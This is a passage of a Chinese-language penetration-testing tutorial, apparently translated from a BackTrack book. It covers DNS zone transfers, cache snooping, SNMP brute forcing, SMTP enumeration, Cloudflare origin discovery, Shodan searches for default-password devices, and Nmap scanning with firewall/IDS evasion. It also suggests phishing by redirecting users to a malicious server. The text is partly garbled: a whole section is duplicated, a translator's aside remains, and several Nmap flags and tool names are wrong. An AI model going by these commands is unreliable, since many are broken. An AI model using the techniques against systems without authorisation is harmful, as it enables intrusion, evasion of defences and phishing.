Fierce 也可以帮助你执行反向 DNS 查询，你需要输入 DNS 服务器和网络范围，如下所示：

```
./fierce.pl -range <networkrange> -dnsserver <server>
```

除了这些工具外，你还可以使用以下网站执行反向 DNS 查询。

`http://www.zoneedit.com/lookup.html`
`http://remote.12dt.com/lookup.php`

### 区域传输 (Zone Transfers)

DNS 服务器带有重要信息，如主机名及其对应的 IP 地址。管理员需要提高 DNS 服务器的安全性，以防黑客利用这些服务器上的漏洞。通过成功执行区域传输，攻击者可以访问未公开的主机。虽然成功传输区域并不会损害服务器，但它为攻击者提供了他们所需的关于目标网站基础设施的重要信息。

大多数 DNS 服务器都不允许区域传输。然而，你可能会通过备份服务器获取区域传输。你可以用于备份传输的一些工具包括：

# Host 命令

对 `targetwebsite.com` 执行区域传输，请按照以下步骤操作。

运行命令 `"host www.msn.com ns"` 来收集与 `msn.com` 相关的域名服务器列表。

如果你发现 `msn.com` 有五个域名服务器，现在将通过运行下面的命令单独对每个服务器尝试区域传输。

```
host -l www.msn.com ns1.msft.net

host -l www.msn.com ns2.msft.net

host -l www.msn.com ns5.msft.net

host -l www.msn.com ns3.msft.net

host -l www.msn.com ns4.msft.net
```

对于上面的示例，所有查询都将失败，因为该服务器不允许区域传输。然而，你可以尝试其他服务器，看看它们是否对区域传输存在漏洞。对于某些服务器，区域传输很容易的，它们将返回你无法通过其他技术发现的所有子域名名称。

# 自动化区域传输

尝试每个域名服务器的区域传输可能需要时间。幸运的是，Fierce 和 `DNSenum` 是 BackTrack 中的两个工具，可以帮助你执行此向查询和区域传输。这两个工具易于使用。要使用 `DNSenum`，你需要在 `/pentest/enumeration/dns/` 目录下运行以下命令：

```
./dnsenum.pl <target website url>

./dnsenum.pl zoransfer.me
```

你也可以使用 Fierce 执行相同的任务。使用 Fierce 运行以下命令：

```
./fierce.pl -dns zoransfer.me
```

# DNS 缓存嗅探 (DNS Cache Snooping)

DNS 缓存嗅探是一种很少黑客考虑的简单 DNS 攻击——它非常有效。简单来说，DNS 缓存嗅探是通过查询 DNS 服务器确定其是否缓存了资源。通过这种方式，黑客可以识别目标最近访问的所有网站。这些记录以 A 记录、CNAME 或 TXT 记录的形式存在。大多数情况下，攻击者关注的是显示目标访问过的 A 记录。

一旦你获取了目标访问的详细信息，就可以将其用于社会工程攻击。执行嗅探有两种方法：

- 递归方法
- 非递归方法

# 非递归缓存嗅探

非递归缓存嗅探比递归方法更简单。在这里，你需要向 DNS Cache 请求特定资源，例如 MX、A 或 CNAME。之后，你需要将“递归请求 (Recursion Desired)”设置为 0。设置为 0 时，执行的查询是非递归的。在这种情况下，查询将检查 DNS 中的特定记录。

如果查询有效并发现了缓存资源，它将返回显示目标访问过某个站点的答案。如果查询无效且没有 A 记录，查询将返回显示根提示（root hints）的回复。

执行上述操作，请使用 DIG：

```
dig @dns_server domain A +norecurse
```


# 递归缓存嗅探

递归 DNS缓存嗅探方法比非递归方法稍微复杂。同样，该方法的准确性较低，因此不推荐。你可以按照以下步骤执行查询：

向 DNS Cache 请求特定资源，无论是 A、MX还是 CNAME。
- 将 DNS 查询设置为递归而非非递归。
- 查看 TTL 记录以查看 DNS 记录在缓存中存储多久。如果答案中的 TTL 记录小于最初设置的值，则说明记录已被缓存，并且目标服务器访问了某个网站。

你仍然可以使用 `DIG` 来运行递归查询。命令应该是相同的，但现在不再使用 `+nonrecursive`，而是使用 `+recurse`，如下所示。

```
dig @dns_server domain A +recurse
```

## 名称服务器允许 DNS 缓存嗅探吗？

某些服务器允许递归和非递归查询，而另一些不允许。超过 50% 的名称服务器接受递归查询，同样超过 50% 的名称服务器接受非递归查询。让我们来看看名称服务器接受这些查询的概率。

## 在攻击期间

在攻击场景中，道德黑客可以使用 DNS 缓存嗅探（DNS Cache snooping）来改进攻击。一种方法是在当你了解到哪些目标访问频率更高时，发起针对性的钓鱼攻击。例如，在一次道德黑客期间，你发现你的客户访问 `facebook.com` 和 `linkedin.com`，你可以发起针对性攻击来破解用户。更好的是，你可以将用户重定向到你在某处设置的恶意服务器。这样，他们最终进入的不是 `facebook.com`，而是你的恶意服务器，在那里你可以轻松地破解他们。

## 自动化 DNS 缓存嗅探

如果你有相关知识，可以创建一个简单的脚本来自动化 DNS 缓存嗅探攻击。否则，你可以使用 `FOCA`，这是一个自动执行 DNS 缓存嗅探攻击的简单程序。或者，你也可以使用名为 `"dns-cache-snoop"` 的 Nmap 脚本来自动化 DNS 缓存嗅探攻击。

## 列举简单网络管理协议 (SNMP)

`SNMP` 设计用于远程管理和配置设备。该程序运行在 UDP 上，提供三个版本——V1、V2 和 V3。`SNMP V1`（设计于 1980 年）的问题在于它没有经过身份验证和安全保护，任何人都可以访问其服务器及其内容。然而，后来开发了新的 SNMP 版本，并向其中添加了一些安全功能。新的 SNMP 版本（即 `SNMP V2`）不向后兼容性，这导致了它的失败。

`SNMP V3` 是最新版本。它设计为与 `SNMP V1` 向后兼容，并使其更容易实现。`SNMP` 协议运行两种社区字符串——私有社区字符串（private）和公共社区字符串（public）。

## 嗅探 SNMP 密码

如果设备使用 `SNMP V1`（无安全功能），它们将是未加密且易于访问的。作为道德黑客，你只需要设置一个嗅探器并拦截流量。你可以使用以下任何工具来嗅探 SNMP 密码。

### OneSixtyOne

这是一个用于扫描和破解 SNMP 社区字符串的综合工具。你可以通过在 BackTrack 上运行以下命令安装该工具：

```
apt-get install sixtyxtone
```

使用该工具非常简单；你只需要输入 IP 地址，并按照下面的命令输入字典路径。该命令将使工具尝试连接 SNMP 社区字符串。

```
onesixtyone <ipaddress> -c/dictionary.txt
```

### Snmpenmium

`Snmpenmium` 是一个用 Perl 编写的工具，默认在 BackTrack 上。你可以在 `/pentest/enumeration/snmp` 目录下访问它。要使用它，请在该目录下运行以下命令。

```
snmpenmium.pl <ipaddress> public windows.txt
```

### SolarWinds Toolset

`SolarWinds Toolset` 是一种用于管理和监控功能的工具，但黑客可以利用它。该工具集优于 BackTrack 提供的命令行工具。`SolarWinds Toolset` 的唯一问题是你需要为它付费——但你可以使用他们的 14 天免费试用来黑入你的目标。工具集中可以在道德黑客攻击中使用的工具包括：

#### SNMP 扫描

一旦安装了 `SolarWinds Toolset`，打开网络发现（Network Discovery）显示 SNMP 扫描工具。你可以使用此工具扫描网络上运行的设备，并找到有关这些设备的更多详情。如果你对局域网（LAN）运行扫描，可能会发现运行 SNMP 的设备的社区字符串。

#### SNMP 暴力破解和字典

在 `SolarWinds` 上，打开安全（Security）选项卡，可以在那里访问 SNMP 字典和 SNMP 暴力破解工具。这些工具帮助你猜测弱密码。SNMP 破解工具将尝试所有密码组合，这可能消耗大量时间，但 SNMP 字典允许你指定一个字典来猜测有效凭据，而不是尝试数千种组合。

#### SNMP 破解工具

这是一个简单的工具，只需要你输入主机，它将尝试不同的密码组合。如果密码很长，破解工具将消耗大量的时间和资源。因此不推荐该工具。

#### SNMP 字典攻击

与 SNMP 破解工具不同，字典攻击工具允许你指定一个将用于 SNMP 服务器的字典。这样，过程消耗的时间和资源更少。

## SMTP 列举

`SMTP` 是简单邮件传输协议的缩写。通过 `SMTP`，你可能会学到所有可用用户名，这将在你进行暴力破解时提供帮助。在开始查找用户名之前，你需要在给定网络上寻找邮件服务器。要做到这一点，你需要对给定网络运行 25 端口扫描，以查看网络上的邮件服务器。扫描有效的邮件服务器需要使用 Perl 脚本 `snmp-user-enum`，它位于 `/pentest/enumeration/smtp` 目录。

要使用此工具，你只需要创建一个用户名列表，然后在下面的命令中 `u` 参数后定义路径：

```
/smtp-user.enum.pl -M VRFY -u
```

## 检测负载均衡器

负载均衡器用于将流量分布到多个服务器上，以确保高可用性和可靠性。然而，它们也可以被攻击者用来隐藏服务器的真实 IP。负载均衡器有两种类型：

- 第 7 层负载均衡器：运行在应用层，可以根据 HTTP 内容路由流量。
- 第 4 层负载均衡器：运行在传输层，根据 IP 地址和端口号路由流量。

要检测负载均衡器后的真实 IP，你可以使用几种方法：

### 1. 使用 DNS 查询

可以使用 `dig` 命令查询 DNS 记录。有时，负载均衡器的 DNS 记录可能会揭示后端服务器的真实 IP 地址。

```
dig targetdomain.com
```

### 2. 使用 Host 命令

`host` 命令是另一种查找 DNS 信息的简单方法。像 `dig` 一样，它有时可以发现真实 IP 地址。

```
host targetdomain.com
```

### 3. 使用专用工具

有专门用于检测负载均衡器后真实 IP 的工具。其中之一是 `Halberd`，它是一个 Perl 脚本，使用多种技术寻找隐藏的 IP 地址。

要使用 `Halberd`，请遵循以下步骤：

1. 下载并解压工具。
2. 安装工具。
3. 对目标域名运行工具。

```
halberd target.com
```


## 绕过 Cloudflare 保护

Cloudflare 正如其名，是一种云端保护服务，保护网站免受拒绝服务攻击。该服务作为反向代理，将名称服务器和真实 IP 地址隐藏在其自己的 IP 地址之下。这样，道德黑客无法发起拒绝服务。以下是你可以用来绕过 Cloudflare 服务器的一些方法。

### 1. 使用解析器

解析器是采用不同方法绕过 Cloudflare 保护的在线服务。流行的 Cloudflare 解析器之一是 `cloudflare-watch.org`，它拥有 390,000 多个使用 Cloudflare 服务的域名列表。根据 CloudFlare-Watch.org 的介绍，Cloudflare 是一个允许黑客、DDoS 者和网络凌者隐藏名称服务器的网站。

要使用此解析器，你只需要打开 `http://www.cloudflare-watch.org/cfs.html`，输入你需要搜索的域名并点击搜索。搜索后，你将获得所搜索网站的直接 IP 连接。

### 2. 子域名技巧

在某些情况下，网站管理员会忘记配置子域名——主域名将指向 Cloudflare 服务器，但子域名将指向真实的 IP 地址。通过这种方式，你需要找到子域名的 IP 地址，才能看到真实 IP 的指向情况。

### 3. 邮件服务器

对于允许注册的网站（例如论坛），你可以使用邮件服务器来查找真实的 IP 地址。Cloudflare 不处理 MX 记录（邮件交换），这使得道德黑客更容易通过查看标头（`headers`）来判断真实 IP。

例如，为了获取网站 `www.target.com` 的真实 IP，可以在该网站上注册，你将收到一封邮件通知。从收到的邮件中，检查邮件标头并使用邮件跟踪工具 `http://www.ip2location.com/free/email-tracer` 来定位目标的真实 IP。

## 使用 Shodan 收集情报

对于黑客来说，Shodan 是 Google 的替代品。与爬取前端数据的 Google、Yahoo 和 Bing 不同，Shodan 爬取的是连接到互联网的设备，如打印机、摄像头和路由器。通过 Shodan，道德黑客可以找到比通过 Google 或任何其他搜索引擎多得关于目标的详细信息。

在 Shodan 上，你可以搜索在使用默认密码（即 `admin+1234`）的路由器。当你在 Shodan 上输入此类查询时，它将向你列出仍在运行默认密码的路由器列表。你还可以使用该搜索引擎搜索默认用户名和密码，例如 `admin/admin` 或 `admin/password`。

你还可以使用 Shodan 寻找连接到互联网且不需要身份验证的特定设备。例如，你可以搜索 `"cisco ios"` `"last modified"`。此查询将向你显示所有不需要身份验证的思科设备。此搜索将给你提供超过 13,000 个结果，这意味着超过 13,000 台思科设备不需要任何形式的身份验证。

尽管如此，在密码方面，你可以使用 Shodan 搜索在使用默认密码的网站。这些网站上的 Banner（标识）极有可能向 Shodan 暴露默认密码。更好的是，你还可以使用 Shodan 搜索 VLAN ID、安全摄像头和 SNMP 团体字符串（`community strings`）。

### 结论

信息收集是道德黑客过程中最重要的阶段。你收集的信息越重要，你的攻击成功率就越高。再次强调，你收集的信息将决定你所采用的道德黑客方法或技术。

# 第 4 章

## 目标枚举与扫描

目标枚举和扫描是信息收集的一部分。成功的侦察和目标枚举将导致道德黑客攻击的成功。通过扫描和枚举目标所收集的信息在攻破解目标时非常有用。在本章中，你将学习如何：

- 发现主机
- 扫描开放端口
- 检测服务和版本
- 检测操作系统
- 绕过防火墙

为了实现这一点，需要多种工具——其中一些默认包含在 BackTrack 中，另一些则需要你自行下载并安装。

### 发现主机

为了让你执行成功的道德黑客攻击，你需要存活的（live）目标。存活目标是指可以通过物理访问托管的设备。不同的方法可以发现可行的目标——一种直接的方法是使用 ICMP 请求或 ping 请求来查看目标是否在线。一旦你收到 ping 响应，你就知道目标是存活的。

此外，你可以使用 `nmap` 的 `-sP` 标记来测试目标是否在线。为了获得更好的结果，请像下命令所示指定网络范围。

```
nmap -sP <target Host>
```

你也可以扫描给定网络上的范围。这时，请使用以下命令：

```
nmap -sP 192.168.15.1/24
```

`/24` 表示法是 CIDR 表示法，用于扫描 `192.168.15.1` 到 `192.168.15.255` 范围的所有主机。

搜索完成后，查询将显示该范围内的所有存活系统。今天，由于防火墙、IDS 和 IPS 会拦截 ICMP 请求，查看存活主机可能面临挑战。因此，你可能需要使用 UDP 和 TCP 等其他协议——这些其他协议在防火墙和其他防御系统中看起来并不异常。在你的道德黑客攻击中，你会遇到拦截 ICMP 请求的现代安全防护。

如果使用 `nping` 发出的 ICMP 请求返回为空（显示目标未存活），你需要使用 TCP 和 UDP 协议来验证目标是否确实未在线。

## 扫描开放端口和服务

一旦你确认主机是存活的，你需要在网络上寻找开放端口以及与这些端口的服务。端口扫描涉及寻找目标网络上的 UDP 和 TCP 端口。当你发现一个开放端口时，你将揭示网络上运行的服务。通过这种方式，你将获得网络的一个潜在切入点。

端口扫描的挑战在于你必须绕过防火墙和其他防御机制。端口扫描的目标是寻找入口，而不留下任何可能追溯到你的日志。你可以使用许多工具在不留痕迹的情况下扫描端口，包括 `hping2`、`Netcat` 和 `Unicornscann`。然而，`Nmap` 是这些工具中最好的，因为它提供了全面的扫描服务。

### 端口扫描类型

你可以执行 UDP 或 TCP 端口扫描。通过 `Nmap`，你可以执行不同类型的扫描，包括 TCP SYN 扫描和 TCP 连接扫描。

你可以通过运行如下简单命令来轻松地使用 Nmap：

```
nmap <Scan Type> <Option> <Target Specification>
```

你可以使用以下命令启动简单的端口扫描：

```
nmap <target Ip Address>
```

运行上述命令将返回目标主机上所有开放的端口。你也可以使用 CIDR 表示法或使用星号（`*`）符号指定范围，如下：

```
nmap 192.168.15.*
```

使用上述命令，将扫描整个 `192.168.15.1–255` 范围，并显示开放端口。再次，你可以看到与开放端口关联的服务。

### TCP 三次握手

传输控制协议（TCP）的开发是为了增强通信的可靠性。它被用于互联网上的多种协议，并通过其三次握手确保通信的可靠性。要理解端口扫描如何工作原理，你需要深入理解 TCP。在两个主机之间的通信中：

- 第一个主机发送 SYN 包。
- 第二个主机发送 SYN/ACK。
- 第一个主机发送确认包（`acknowledgment`）。

当你深入理解 TCP 时，它将帮助你轻松执行攻击。你需要了解的 TCP 标志包括：`SYN`（同步）、`ACK`（确认）、`RST`（重置）和 `FIN`（结束）。

### 扫描后可能的端口状态

执行扫描后，你会得到四种结果之一：

- 开放（Open）：端口可以访问且有应用程序正在监控。
- 关闭（Closed）：端口不可访问，且没有应用程序正在监控。
- 过滤（Filtered）：`Nmap` 无法判断端口是否开放——这通常意味着防火墙在保护。
- 未过滤（Unfiltered）：端口可以访问，但 `Nmap` 无法确定其是否开放。

### TCP SYN 扫描

当你需要对目标进行快速扫描时，将运行 TCP 扫描（默认扫描）。你还可以使用 `-n` 参数引导 `Nmap` 跳过域名解析以提高速度。

此扫描的简单步骤如下：

- 从源主机向目标机的 80 端口发送 SYN 包。
- 目标主机可能回复 SYN/ACK，告诉 `Nmap` 端口 80 是开放的。
- 在 `Nmap` 知道端口开放后，操作系统发送重置（`RST`）关闭连接。
- 如果发送第一个 SYN 后没有响应，`Nmap` 将识别为端口未过滤过滤。
- 如果发送 SYN 包后目标主机发送重置（`RST`）包，则显示端口已关闭。

要在 `Nmap` 上运行 TCP SYN 扫描，你需要输入以下命令：

```
nmap -sS <target IP>
```

你还可以添加 `-n` 和 `-p` 参数来引导 `Nmap` 跳过域名解析并指定要扫描的端口。该命令看起来像：

```
nmap -sS <target IP> -p 80
```


# TCP 连接扫描

与 TCP SYN 扫描不同，TCP 连接扫描会完成之前解释的三次握手。如果机器不支持 SYN 扫描，则连接扫描将成为默认扫描——这通常发生在无创建 RAW 数据包权限的机器。

连接扫描（Connect scan）的工作原理简单：

- 从源主机向目标机的 80 端口发送 SYN 数据包
- 目标主机响应 SYN/ACK 数据包
- 源主机响应 ACK 包以确认已收到响应
- 最后，源主机发送 RST 数据包以关闭连接

你可以按照如下方式在 Nmap 命令中添加 `-sC` 参数：

```
nmap -sC <target IP>
```

# NULL、FIN 和 XMAS 扫描

所有这些扫描方式都是相同的。当你需要进行可以绕过防火墙和 IDS（入侵检测系统）的扫描时，这些是理想的扫描方法。当你的目标是基于 Unix 的操作系统时，这些扫描也具有优势，因为它们对基于 Windows 的操作系统无效。在执行 NULL、FIN 或 XMAS 扫描时，无论端口是开放还是关闭，都会发送重置数据包（reset packet）。然而，这些扫描无法准确判断端口是开放还是被过滤，你必须手动使用其他扫描进行验证。

NULL 扫描通过在 TCP 头部中发送无标志位来完成。没有响应意味着端口开放，而 RST 包响应意味着端口关闭或被过滤。使用以下命令：

```
nmap -sN <target IP Address>
```

FIN 标志用于关闭打开会话。在这里，你将向目标主机发送 FIN 标志。没有响应意味着端口开放，而 RST 响应意味着端口关闭。命令如下：

```
nmap -sF <target IP Address>
```

XMAS 扫描结合了不同的标志位，包括 FIN、URG 和 PUSH，并将它们发送到目标主机。通过这种方式，扫描数据包就像圣诞树一样闪烁。XMAS 扫描的工作与 NULL 或 FIN 扫描相同——没有响应意味着端口开放，而 RST 则意味着端口关闭。

```
nmap -sX <target Ip Address>
```

# TCP ACK 扫描

这种用于确定防火墙和 ACL（访问控制列表）规则的扫描。该扫描仍用于端口扫描。首先，源主机发送 ACK 包（而不是 SYN 包）。状态检测防火墙会意识到发送的是 ACK 而不是 SYN 包，从而在到达目的地之前停止。

没有响应意味着防火墙是状态检测的并且正在过滤发送的数据包，而 RST 包则意味着数据包到达了预期目的地。

```
nmap -sA <target Ip Address>
```

# UDP 端口扫描

UDP 是 User Datagram Protocol 的缩写。UDP 并不提高通信的可靠性。许多端口使用 UDP，UDP 端口扫描可以让你看到哪些服务正在监听 UDP。你可能会遇到的 UDP 服务有 SNMAP、DHCP 和 DNS。要执行 UDP 端口扫描，你需要发送一个空的 UDP 头部。当你从目标主机收到任何响应时，意味着该端口是开放或被过滤的。如果接收到 ICMP 错误消息，则意味着端口是关闭。此外，任何其他 ICMP 消息都显示端口被过滤了。

```
nmap -sU <target Ip Address>
```

# 匿名扫描类型

匿名扫描类型非常棒——它们不会向目标主机暴露主机 IP。通过这种方式，你可以进行 TCP 或 UDP 端口扫描，而目标永远不知道你的存在。匿名端口扫描可以隐藏你的踪迹。在匿名端口扫描中，由另一个主机/服务器为你进行扫描。

# IDLE 扫描

IDLE 扫描为你提供了一种隐蔽扫描开放端口的方法。在执行此扫描时，你引入了一个“僵尸主机”（zombie）来扫描另一个主机。通过这种方式，目标主机只会收到来自僵尸主机的包，而不是攻击者的包。因此，目标永远无法破解攻击的来源。在执行扫描之前，找到一个 IP ID 序列递增的候选主机，并确保网络上的该主机是空闲的（IDLE）。

要扫描漏洞主机，首先确定一个主机是否适用于 IDLE 扫描。为此，你可以使用名为 `Hping2` 的工具，它最初设计用于防火墙测试。从你的控制台运行以下命令：

```
hping2 -S -r <Target IP>
```

`-s` 和 `-r` 参数分别用于发送 SYN 标志和获取相对 ID（relative ID）。如果结果显示 ID 是递增的（例如 +1），则该主机是一个候选主机。

此外，你可以使用 Metasploit 辅助模块来寻找良好的僵尸候选主机。为此，在 shell 中输入 "`msfconsole`" 启动 Metasploit，然后输入以下命令。

```
msf> use auxiliary/scanner/ip/ipidseq
```

之后，你需要设置 Ghost 值，你可以专注于单个目标或设置一个范围。对于单个目标，使用命令：

```
Set RHOSTS <Target Ip>
```

对于一个范围：

```
Set RHOSTS 192.168.15.1–192.168.15.255
```

最后，发布 `run` 命令完成过程。

# 使用 NMAP 进行 IDLE 扫描

在确定了僵尸候选后，你需要使用 Nmap 执行 IDLE 扫描。要执行此扫描，你只需要在 Nmap 中指定 `-sl` 参数，随后是僵尸主机的 IP 和目标的 IP，如下：

```
nmap -sl <IP Address Of Zombie> <IP Address Of The Target>
```

除了 `-sl` 参数，你还需要使用 `-Pn` 参数。

```
nmap -sl -Pn <IP Address Of Zombie> <IP Address Of The Target>
```

# TCP 反弹扫描

这种扫描用于基于代理的连接。扫描允许你发现端口上的潜在漏洞。执行此操作，运行以下命令：

```
nmap -b <target IP>
```

# 服务版本检测

在找到哪些端口开放以及运行哪些服务后，你需要找到服务的版本。为此，使用 `-sV`。

```
nmap -sV <target IP>
```

# OS 指纹识别

同样，Nmap 拥有一个全面的操作系统指纹数据库，包含超过 2600 个操作系统指纹。工具向目标主机发送 UDP 或 TCP 数据包。来自目标主机的响应与数据库进行比较。你运行的命令如下：

```
nmap -O <Target Address>
```

更好的是，Nmap 还允许你通过其 `-osscan-limit` 选项猜测操作系统。该选项将操作系统扫描限制在有前景的目标上以节省时间。你也可以使用 `-osscan-guess` 来更有效、更激进地检测操作系统。如果你添加 `-A` 参数，可以同时检测操作系统和服务版本。

```
nmap -n -A -T5 <target IP>
```

# POF

POF 是被动操作系统指纹识别（passive OS fingerprinting）的缩写。由于指纹识别是一个活跃的过程，POF 被动尝试检测操作系统。与其直接接触目标，不如尝试识别 TCP 栈。通过 TCP 栈类型，POF 可以确定使用的操作系统。

# 输出

解释输出在你发起攻击时将非常有帮助。Nmap 提供了多种选项以可靠且易于格式的输出解释输出。你可以使用不同的格式来过滤结果。这些格式包括：

- 正常格式
- 可 grep 格式
- XML 格式

正常格式允许 Nmap 结果输出到文本文件中。例如，在执行下面的 SYN 扫描后，结果将显示在 `jay.txt` 的文件中。

```
nmap -sS -PN -oN jay.txt
```

在这种输出格式下，结果每行显示一个主机。

```
nmap -sS 192.168.15.1 -oG jay
```

最后，XML 格式是 Nmap 中应用最广泛的。原因是 Nmap 生成的 XML 输出可以迁移到 Armitage 和 dradis 框架。如下例所示。

```
nmap -sS 192.168.15.1 -oX <filename>
```


## 防火墙和 IDS 绕过技术

这里讨论的大多数技术都是“响”的——它们在扫描后会留下日志，或者被 IDS 和防火墙检测到。即使是 `FIN`、`XMAS` 和 `NULL` 等工具也不那么可靠，特别是因为它们在 Windows 操作系统上无效——因此它们的优势有限。

然而，某些工具和技术可以帮助你规避防火墙和 IDS。尽管如此，没有哪个工具是 100% 安全免受防火墙和 IDS 检测的，你必须基于试错来工作。某些方法在某些防火墙和 IDS 上可能完美运行，但取决于规则集的强度，在其他设备上可能会彻底失败。Nmap 书中讨论的一些技术包括：

- 计时 `Timing`
- 分分包 `Fragmented packets`
- 发送错误的校验和 `Sending bad checksums`
- 指定 MTU
- 源端口扫描 `Source port scan`

这些技术在下文中讨论。

计时技术是一种简单的技术，你逐渐向目标机器发送包，以确保防火墙或 IDS 检测不到它们。使用 Nmap 时，使用 `-T` 参数指定你需要发送包的次数。你可以使用 `T0` 到 `T5` 之间的任何值。随着数字增加，扫描速度也会加快。

扫描如下：

- `T0` – 谨慎扫描 `Paranoid scan`
- `T1` – 秘密扫描 `Sneaky scan`
- `T2` – 礼貌扫描 `Polite scan`
- `T3` – 正常扫描 `Normal scan`
- `T4` – 激进扫描 `Aggressive scan`
- `T5` – 疯狂扫描 `Insane scan`

例如，如果你需要执行秘密扫描，将运行以下命令：

```
nmap -T1 <Target iP>
```

分包是将普通数据包分成小尺寸，这对防火墙/IDS 来说具有挑战性。由于 IDS 只分析单个分片，而不是进入目标机器的所有包，这些包将轻松通过 IDS。当只分析一个分片时，数据包将变得不可疑。注意，现代 IDS 可以将分片重组成一个包并检测它。

要进行分包，使用所示的 `-f` 参数：

```
nmap -f 192.168.15.1
```

源端口是绕过防火墙和 IDS 的另一种方法。在某些情况下，网络管理员可能会允许来自指定端口的流量。如果防火墙配置错误，且管理员允许来自给定端口的流量，你可以利用这一优势找到进入目标计算机的方法。要做到这一点，使用 `-g` 参数指定端口（端口 21、53 或 80），如下：

```
nmap -PN -g 53 192.168.15.1
```

你还可以指定 MTU（最大传输单元 Maximum Transmission Unit 的写），以确保防火墙永远察觉到你的扫描。所有识别为 MTU 的值都是 8 的倍数，包括 8、16、24、32 等。使用 Nmap 时，你可以指定要使用的 MTU。根据你指定的 MTU，Nmap 将生成大小与指定的 MTU 相同的包。例如，如果你指定 MTU 16，Nmap 将生成一个 16 字节的包。MTU 的更改可以帮助逃避防火墙检测。你运行的命令如下：

```
nmap -mtu 16 <target ip>
```

另一种绕过防火墙/IDS 检测的方法是发送错误的校验和。这些校验和用于 TCP 头部以检测错误。然而，当你使用错误的校验和时，可能不会被检测到。取决于规则集，使用错误/坏校验和可能会让你通过防火墙和 IDS。要做到这一点，尝试以下命令：

```
nmap -badsum <Target IP>
```

绕过防火墙和 IDS 的最后技术是使用诱骗器（decoys）——这是一种在你收集目标信息时增强隐蔽性的方法。在这里，你需要从其他主机发送伪装扫描，这给网络管理员带来了挑战。（由于此处原文存在大量重复句子，翻译时已按要求去重处理）

## Nmap-GUI

这里讨论的大多数技术都是“响”的——它们在扫描后会留下日志，或者被 IDS 和防火墙检测到。即使是 `FIN`、`XMAS` 和 `NULL` 等工具也不那么可靠，特别是因为它们在 Windows 操作系统上无效——因此它们的优势有限。

然而，某些工具和技术可以帮助你规避防火墙和 IDS。尽管如此，没有哪个工具是 100% 安全免受防火墙和 IDS 检测的，你必须基于试错来工作。某些方法在某些防火墙和 IDS 上可能完美运行，但取决于规则集的强度，在其他设备上可能会彻底失败。书中讨论的一些技术包括：

- 计时
- 分包
- 发送错误的校验和
- 指定 MTU
- 源端口扫描

这些技术在下文中讨论。

计时技术是一种简单的技术，你逐渐向目标机器发送包，以确保防火墙或 IDS 检测不到它们。使用 Nmap 时，使用 `-T` 参数指定你需要发送包的次数。你可以使用 `T0` 到 `T5` 之间的任何值。随着数字增加，扫描速度也会加快。

扫描如下：

- `T0` – 谨慎扫描 `Paranoid scan`
- `T1` – 秘密扫描 `Sneaky scan`
- `T2` – 礼貌扫描 `Polite scan`
- `T3` – 正常扫描 `Normal scan`
- `T4` – 激进扫描 `Aggressive scan`
- `T5` – 疯狂扫描 `Insane scan`

例如，如果你需要执行秘密扫描，将运行以下命令：

```
nmap -T1 <Target iP>
```

分包是将普通数据包分成小尺寸，这对防火墙/IDS 来说具有挑战性。由于 IDS 只分析单个分片，而不是进入目标机器的所有包，这些包将轻松通过 IDS。当只分析一个分片时，数据包将变得不可疑。注意，现代 IDS 可以将分片重组成一个包并检测它。

要进行分包，使用所示的 `-f` 参数：

```
nmap -f 192.168.15.1
```

源端口是绕过防火墙和 IDS 的另一种方法。在某些情况下，网络管理员可能会允许来自指定端口的流量。如果防火墙配置错误，且管理员允许来自给定端口的流量，你可以利用这一优势找到进入目标计算机的方法。要做到这一点，使用 `-g` 参数指定端口（端口 21、53 或 80），如下：

```
nmap -PN -g 53 192.168.15.1
```

你还可以指定 MTU（最大传输单元 Maximum Transmission Unit 的写），以确保防火墙永远察觉到你的扫描。所有识别为 MTU 的值都是 8 的倍数，包括 8、16、24、32 等。使用 Nmap 时，你可以指定要使用的 MTU。根据你指定的 MTU，Nmap 将生成大小与指定的 MTU 相同的包。例如，如果你指定 MTU 16，Nmap 将生成一个 16 字节的包。MTU 的更改可以帮助逃避防火墙检测。你运行的命令如下：

```
nmap -mtu 16 <target ip>
```

另一种绕过防火墙/IDS 检测的方法是发送错误的校验和。这些校验和用于 TCP 头部以检测错误。然而，当你使用错误的校验和时，可能不会被检测到。取决于规则集，使用错误/坏校验和可能会让你通过防火墙和 IDS。要做到这一点，尝试以下命令：

```
nmap -badsum <Target IP>
```

绕过防火墙和 IDS 的最后技术是使用诱骗器（decoys）——这是一种在你收集目标信息时增强隐蔽性的方法。在这里，你需要从其他主机发送伪装扫描，这给网络管理员带来了挑战。

```
nmap -D <Target IP>
```

扫描过程非常嘈杂且容易被检测。运行下面的命令来扫描额外的漏洞。

```
nmap --script=vuln <target ip>
```

### 使用 Nmap 扫描 SCADA 环境

SCADA 是监控控制与数据采集的缩写。它是一种用于监控工业系统运行情况的特殊设备。这些系统持有敏感信息，因此受到了严密监控。如果你在这些系统上使用 `Nessus`、`Netepose` 或 `OpenVAS` 等漏洞扫描器，可能会导致系统崩溃。

因此，与其使用这些工具，你可以使用 Nmap 的 `vulcan.nse` 脚本。要使用此脚本，你只需要使用两个参数：“-”（用于检测服务）和“-script=vulcan.nse”（这是使用 Nmap 脚本的语法）。

由于 nmap 并未预装 `vulcan.nse` 脚本，你需要下载它并将其内容提取到 `/usr/local/share/nmap/scripts` 目录。执行此操作，请运行以下命令：

```bash
root@root: cd/usr/local/share/nmap/scripts
```

然后：

```bash
root@root:/usr/local/share/nmap/scripts# wget www.computec.ch/mruef/software/nmap_nse_vulcan-1.0.tar.gz
```

最后：

```bash
root@root:/usr/localshare/nmap/scripts# tar xzvf nmap_nse_vulcan-1.0.tar.gz.
```

安装完成后，你现在可以扫描目标的漏洞了。这通过运行以下命令来实现：

```bash
nmap -sV --script=vulcan.nse <targetIP>
```


### Nessus 漏洞扫描器

Nessus 是一款全全面的漏洞扫描器。如你所见，Nmap 只有几个脚本可以评估漏洞。当 Nmap 和其他扫描器失效时，Nessus 就派上用场了。Nessus 通过评估 banner 或版本头来工作，这可能会揭示有关运行服务版本的重要信息。你可以使用两种版本的 Nessus：

- 家庭版馈（Home Feed）
- 专业版馈（Professional feed）

家庭版是两者中较简单的，专为个人使用设计。它提供了漏洞扫描所需的所有内容。另一方面，专业版用于商业用途，主要处理合规性检查和审计目的。你需要购买专业版扫描器。

### 在 BackTrack 上安装 Nessus

虽然 BackTrack 预装了 Nessus，但你需要使用 Nessus 网站上提供的激活码来激活它。当你激活该工具时，将获得最新的插件和功能。从下下 URL 获取激活码：

```
http://www.tenable.com/products/nessus/nessus-plugins/obtain-activation-code
```

访问上述 URL 时，你会被要求在家庭版和工作版馈之间进行选择。选择家庭版，然后提供一个接收代码的有效邮箱地址。在你的 BackTrack 上，在控制台中输入以下命令注册 Nessus。

```bash
/opt/nessus/bin/nessus-fetch --register <insert activation code>
```

